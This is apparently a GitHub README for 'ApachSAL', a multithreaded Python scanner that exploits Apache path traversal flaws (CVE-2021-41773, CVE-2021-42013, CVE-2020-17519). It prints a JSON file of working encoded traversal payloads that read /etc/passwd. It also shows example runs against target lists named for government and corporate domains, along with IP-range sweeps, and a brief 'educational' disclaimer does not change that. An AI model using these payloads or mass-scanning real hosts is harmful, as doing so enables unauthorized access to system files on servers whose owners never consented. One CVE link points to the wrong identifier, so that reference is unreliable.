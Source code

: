 ### 
|    “ApachSAL”    |
| ------------- |
|![Index](https://i.ibb.co.com/HVZjxzm/Copy-of-Black-Modern-Web-3-Technology-You-Tube-Thumbnail.png)|


<h1 align="center">
  Apache Path Traversal 
</h1> 
  
<img alt="GPL License" src="https://img.shields.io/github/license/imhunterand/ApachSAL?color=blue">
  
<img alt="GitHub code size in bytes" src="https://img.shields.io/github/languages/code-size/imhunterand/ApachSAL">
 
<img alt="Python 3.8" src="https://img.shields.io/badge/python-3.8-yellow.svg">
<img alt="Supported_OS Linux orange" src="https://img.shields.io/badge/Supported_OS-Linux-orange.svg">
<img alt="Supported OS Mac" src="https://img.shields.io/badge/Supported_OS-Mac-orange.svg">
</p>  

### Path traversal (software bug) 
A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).

## Disclaimer 
```
This or previous program is for Educational purpose ONLY. Do not use it without permission. 
The usual disclaimer applies, especially the fact that me (Imhunterand) is not liable for any 
damages caused by direct or indirect use of the information or functionality provided by these 
programs. The author or any Internet provider bears NO responsibility for content or misuse 
of these programs or any derivatives thereof. By using these programs you accept the fact 
that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these 
programs is not Imhunterand responsibility.
``` 


### This script checks for vulnerabilities
- [CVE-2021-41773  ](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)
- [CVE-2020-17519](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)


## Commands
```bash
python main.py --file gov.br.txt  --thread 15
python main.py --file tesla.txt  --ssl
python main.py --range 192.168.15.1,192.168.15.100 --thread 30 
python main.py --file fbi.gov.txt  --thread 15 --timeout 3 
python main.py --file gov.ru.txt  --debug
```
## Screenshots
![Screenshot](/assets/prints/print01.png)
![Screenshot](/assets/prints/print02.png)


## Flow to generate targets
![Screenshot](/assets/prints/print03.jpg)

## Help
```bash
python main.py --help
```
 
```properties

                                   .,,
                                  (=\/\
                                   \=\/\
                                    \=\/\
                                     `=\/
                                        \
            TRAVERSAL [ APACHE ]
 ▄▄▄       ██▓███   ▄▄▄       ▄████▄   ██░ ██   ██████  ▄▄▄       ██▓
▒████▄    ▓██░  ██▒▒████▄    ▒██▀ ▀█  ▓██░ ██▒▒██    ▒ ▒████▄    ▓██▒
▒██  ▀█▄  ▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▒██▀▀██░░ ▓██▄   ▒██  ▀█▄  ▒██░
░██▄▄▄▄██ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒░▓█ ░██   ▒   ██▒░██▄▄▄▄██ ▒██░
 ▓█   ▓██▒▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░░▓█▒░██▓▒██████▒▒ ▓█   ▓██▒░██████▒
 ▒▒   ▓▒█░▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░ ▒ ░░▒░▒▒ ▒▓▒ ▒ ░ ▒▒   ▓▒█░░ ▒░▓  ░
  ▒   ▒▒ ░░▒ ░       ▒   ▒▒ ░  ░  ▒    ▒ ░▒░ ░░ ░▒  ░ ░  ▒   ▒▒ ░░ ░ ▒  ░
  ░   ▒   ░░         ░   ▒   ░         ░  ░░ ░░  ░  ░    ░   ▒     ░ ░
      ░  ░               ░  ░░ ░       ░  ░  ░      ░        ░  ░    ░  ░
                             ░


                      By: imhunterand /labsbots.com/
                      https://twitter.com/imhunterand
                      https://github.com/imhunterand/                                                                     
         
usage: tool [-h] [--file <ips.txt>] [--range <ip-start>,<ip-end>]
            [--thread <20>] [--ssl] [--timeout <5>] [--debug]

[!] Check: CVE-2021-41773, CVE-2021-42013, CVE-2020-17519
[!] File exploits: /assets/exploits.json
[!] Output: output/vuln.txt

python main.py --file gov.br.txt  --thread 15
python main.py --file tesla.txt  --ssl
python main.py --range 192.168.15.1,192.168.15.100 --thread 30 
python main.py --file fbi.gov.txt  --thread 15 --timeout 3 
python main.py --file gov.ru.txt  --debug

optional arguments:
  -h, --help            show this help message and exit
  --file <ips.txt>      Input your target host lists
  --range <ip-start>,<ip-end>
                        Set range IP Eg.: 192.168.15.1,192.168.15.100
  --thread <20>, -t <20>
                        Eg. 20
  --ssl                 Enable request with SSL
  --timeout <5>         Set connection timeout
  --debug, -d           Enable debug mode

```

## Tree
```properties
.
├── assets
│   ├── autor.json
│   ├── config.json
│   ├── exploits.json
│   └── prints
│       ├── banner.png
│       ├── print01.png
│       └── print02.png
├── LICENSE
├── main.py
├── modules
│   ├── banner_mrclw.py
│   ├── color_mrclw.py
│   ├── debug_mrclw.py
│   ├── file_mrclw.py
│   ├── __init__.py
│   ├── request_mrclw.py
│   ├── shodan_mrclw.py
│   └── thread_mrclw.py
├── output
└── README.md
```

## File exploit
> assets/exploits.json 
```json
{
    "CVE-2021-41773": "/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd",
    "CVE-2021-42013-0": "/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd",
    "CVE-2021-42013-1": "/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2021-42013-3": "/cgi-bin/.%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2021-42013-4":"/cgi-bin/%25%25%25%2e/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2020-17519-0":"/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd",
    "CVE-2020-17519-1":"/cgi-bin/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
}
```

[![Star History Chart](https://api.star-history.com/svg?repos=imhunterand/ApachSAL&type=Date)](https://star-history.com/#imhunterand/ApachSAL&Date)



### Ref.

- https://owasp.org/www-community/attacks/Path_Traversal
- https://appcheck-ng.com/apache-path-traversal-vulnerability-cve-2021-41773/
- https://www.exploit-db.com/exploits/50383
- https://www.exploit-db.com/exploits/50406
- https://www.exploit-db.com/exploits/49398
- https://owasp.org/www-community/attacks/Path_Traversal


